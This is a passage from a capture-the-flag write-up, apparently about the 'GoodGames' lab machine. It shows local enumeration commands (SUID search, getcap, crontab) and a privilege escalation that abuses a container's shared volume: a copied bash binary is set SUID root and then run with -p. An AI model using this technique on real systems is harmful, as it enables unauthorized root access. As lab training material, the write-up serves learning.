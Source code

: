 If I enumerate a bit the victim machine, many of the commands I can't find, if I look at the **PATH** it has configured, it doesn't contemplate many directories, so I export the one of my attacker machine. Now that I can enumerate, I perform the basic reconnaissance commands but I can't find anything at the moment.

```bash
sudo -l
# --> command not found

ifconfig
# --> command not found :(

export PATH=......                  # (my PATH!)

ifconfig
# --> br-99993f3f3b6b: .... inet 172.19.0.1

find \-perm -4000 2>/dev/null
getcap -r / 2>/dev/null

id
# I'm not in docker group!

uname -a
# --> Debian GNU/Linux 11
lsb_releas -a
# --> bullseye

cat /etc/crontab
```

<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_54.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_55.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_56.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

As I find no vulnerabilities, I think I should take advantage of the container and the mounted volume. Then an idea for privilege escalation, is to copy the `bash` binary in the home of the user `augustus`. Now I go back to the container where I am the `root` user, then I can make all the changes I want. First I change the user and group owner of the `bash` binary to `root` and also assign **SUID** permissions. I just need to access again to the real victim machine with **SSH** and run the `bash` binary with modified permissions, and with the `-p` parameter to give me a shell as the owner user, in this case, `root`. Finally I was able to route the box

```bash
cd /home/augustus
cp /bin/bash .

exit

# Continer
cd /home/augustus
ls -l
# --> -rwxr-xr-x 1 1000 1000 bash

chown root:root bash
chmod 4755 bash
ls -l
```